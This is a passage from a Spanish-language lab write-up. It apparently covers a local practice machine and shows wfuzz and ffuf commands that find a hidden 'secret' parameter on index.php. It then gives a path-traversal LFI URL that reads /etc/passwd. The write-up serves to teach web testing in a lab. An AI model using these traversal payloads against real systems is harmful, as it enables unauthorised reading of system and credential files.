 
Parece que tampoco hay nada por aquí, y nuestro `fuzzeo` no ha dado ningún resultado más, encontramos la página index.php y lo que podría existir algún parámetro oculto. Por lo que realizamos un `fuzzing` para ver si tenemos algún parámetro oculto  y podemos ejecutar un **LFI**(Local File Inclusion)

**WFUZZ**
```
wfuzz -c -t 200 --hl 62 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/index.php?FUZZ=../../../../../../../etc/passwd"
```

<p align="center">
    <img src="../img/Pasted_image_20250101230326.png" width="500">
</p>

Y efectivamente tenemos un parámetro llamado `secret`.



**FFUF**
También podemos utilizar la herramienta `ffuf`
```
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/index.php?FUZZ=key" -fs 2596
```

<p align="center">
    <img src="../img/Pasted_image_20250101232345.png" width="500">
</p>



Y encuentra el mismo parámetro. Por lo que vamos al navegador y probamos el parámetro para confirmar que hay un **LFI**. Vamos al navegador y ponemos en la URL para poder leer el fichero `/etc/passwd`
```
http://172.17.0.2/index.php?secret=../../../../../../../../etc/passwd
```
